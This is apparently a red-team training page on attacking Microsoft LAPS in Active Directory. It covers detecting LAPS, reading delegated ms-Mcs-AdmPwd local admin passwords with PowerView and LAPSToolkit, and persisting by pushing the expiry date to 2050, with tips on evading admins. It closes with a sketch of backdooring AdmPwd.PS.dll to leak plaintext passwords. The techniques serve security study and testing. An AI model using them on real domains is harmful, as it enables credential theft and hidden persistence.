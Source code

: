 ```yaml
---
title: Local Administrator Password Solution (LAPS)
category: 00 - Red Team
order: 13
---
```


LAPS is a Microsoft solution for managing the credentials of a local administrator account on every machine, either the default RID 500 or a custom account.  It ensures that the password for each account is different, random, and automatically changed on a defined schedule.  Permission to request and reset the credentials can be delegated, which are also auditable.  Here is a quick summary of how LAPS works:

* The Active Directory schema is extended and adds two new properties to computer objects, called `ms-Mcs-AdmPwd` and `ms-Mcs-AdmPwdExpirationTime`.
* By default, the DACL on `ms-Mcs-AdmPwd` only grants Domain Admins but each computer is given permission to update these properties on itself.
* Rights to read `AdmPwd` can be delegated to other principals (users, groups, etc) which is typically done at the OU level.
* A new GPO template is installed, which is used to deploy the LAPS configuration to machines.
* The LAPS client is also installed on every machine.
* When a machine performs a gpudate, it will check the `AdmPwdExpirationTime` property on its own computer. If the time has elapsed, it will generate a new password and sets it on the `ms-Mcs-AdmPwd` property.

# Hunting LAPS

* `AdmPwd.dll` on disk.

There are few methods to check for the presence of LAPS. If it's applied to a machine `AdmPwd.dll` will be on disk.

```
beacon> ls C:\Program Files\LAPS\CSE

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 179kb    fil     05/05/2021 07:04:14   AdmPwd.dll
```

* Via GPO.

We can search for GPO that have "LAPS" or some other descriptive term in the name

```powershell
Get-DomainGPO | ?{$_.DisplayName -like "*laps*"} | select DisplayName, Name, GPCFileSyspath |fl
```

* `ms-Mcs-AdmPwdExpirationTime` property not null on a computer.

When LAPS is installed on a computer the property `ms-Mcs-AdmPwdExpirationTime` will have a value set, every domain user can read this property.

```
Get-DomainComputer | ?{$_."ms-Mcs-AdmPwdExpirationTime" -ne $null} | select dnsHostName
```

# Downloading LAPS Configuration

If we locate the correct GPO, we can download the LAPS configuration form the `gpcfilesyspath`.

```
\\corp.local\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
```

We can parse the pol file with `Parse-PolFile` from the `GPRegistryPolicyParser` package.

* [https://github.com/PowerShell/GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

```powershell
Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 30

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : LapsAdmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PwdExpirationProtectionEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```

# Reading ms-Mcs-AdmPwd

## PowerView

We can discover which principals are allowed to read the `ms-Mcs-AdmPwd` attribute by reading its DACL on each computer object.

* PowerView (dev):
```powershell
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

ObjectDN                                                      SecurityIdentifier                          
--------                                                      ------------------                          
CN=WKSTN-2,OU=Workstations,DC=corp,DC=local                   S-1-5-21-569305411-121244042-2357301523-1107
```

We can check the Name of the principal from a SID.

```powershell
ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
CORP\Support Engineers
```
## LAPSToolkit

`LAPSToolkit` is a dedicated PowerShell tooling that can help us.

* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

First such as PowerView we need to import the module.

```powershell
Import-Module .\LAPSToolit.ps1
```

`Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access

```powershell
Find-LAPSDelegatedGroups
```

`Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights". This will reveal any users that can read the attribute without havind had it specifically delegated to them.

## Get LDAP Password

Finally we just need to read the attribute.

* PowerView (dev):
```powershell
Get-DomainComputer -Identity WKSTN-1 -Properties ms-Mcs-AdmPwd
```

# Password Expiration Protection

If the `PwdExpirationProtectionEnabled` policy is enabled, prevents a user of computer setting the expiration date of a password beyond the password age specified in the `PasswordAgeDays`.

It means that if password expiration is enabled and we attempted to modify its expiration date beyond the value set, it would trigger an automatic reset of that password.

But if its not configured in the GPO, then password expiration protection is disabled by default.

> **Note**: The expiration date is an 18-digit timestamp calculated as the number of 100-nanoseconds interavals. We can use a epoch converter [https://www.epochconverter.com/ldap](https://www.epochconverter.com/ldap) to translate these timestamps to human-readable format.


## Persistence by pushing the expiry out

First we need to convert the wanted data to epoch. In that case I will use `141940046450000000` which is translated to `16 October 2050 11:04:05`.

With a elevated shell we just need to modify the attribute.

```powershell
Set-DomainObject -Identity WKSTN-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '141940046450000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '141940046450000000' for object 'WKSTN-1$'
```

> **OPSEC Alert**: The expiration date will still be visible to amdins and a manual reset will change the password and restore the expiration date.

# Backdoor in LAPS

Since Powershell heavily utilises the .NET framework, the dlls are written in C# which makes them fairly trivial to download, modify and re-upload.

We can modify the source code of the PowerShell cmdlet `Get-AdmPwdPassword` to install a backdoor.

```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 13:04:13   en-US
 24kb     fil     05/05/2021 12:04:14   AdmPwd.PS.dll
 5kb      fil     04/28/2021 18:56:38   AdmPwd.PS.format.ps1xml
 4kb      fil     04/28/2021 18:56:38   AdmPwd.PS.psd1
 26kb     fil     05/05/2021 12:04:14   AdmPwd.Utils.dll
```

We can download `AdmPwd.PS.dll` open it with `dnSpy` and modify the class `GetPassword`.

Here we can inject our backdoor, we can simply send the plaintext password via internet, print on a file etc...